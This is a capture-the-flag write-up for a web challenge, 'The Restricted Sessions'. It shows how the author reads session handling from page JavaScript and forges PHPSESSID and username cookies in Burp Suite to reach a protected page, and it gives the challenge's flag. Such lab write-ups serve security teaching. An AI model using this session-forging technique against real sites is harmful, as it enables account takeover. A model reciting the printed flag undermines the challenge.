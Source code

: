 # Challenge Name:
 [*The Restricted Sessions*](https://cybertalents.com/challenges/web/the-restricted-sessions)
 
# Challenge Description
Flag is restricted to logged users only , can you be one of them.

Link: [http://34.77.37.110/restricted-sessions/](http://34.77.37.110/restricted-sessions/)

## Answer
* Open inspect from (ctrl + shift + c) then scroll down there is a script compare session id with phpsessid
```
<script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
</script>
```
* Open Burb Suite to intercept requests (there isn't cookie on it)
* Send request to repeater, then add some cookie
```
Cookie: PHPSESSID=test
```
Response:
```
Session not found in data/session_store.txt
```
* He store session ids in this file let's see it
* Change 'test' in the previous request to an id from this file
Response:
```
UserInfo Cookie don't have the username , Validation failed 
```
* Cookie must contain username but if we try random one it will not work
* From JavaScript code it get user info by sending post request to 'getcurrentuseringo.php' (notice that it is get now so you must change method)
```
GET /restricted-sessions/getcurrentuseringo.php?PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23 HTTP/1.1
```
```
"name":"john",
"email":"john@example.com",
"session_id":"iuqwhe23eh23kej2hd2u3h2k23"
```
* Now add username to Cookie then send
* You got the Flag!!


 ## The Flag
 > sessionareawesomebutifitsecure 

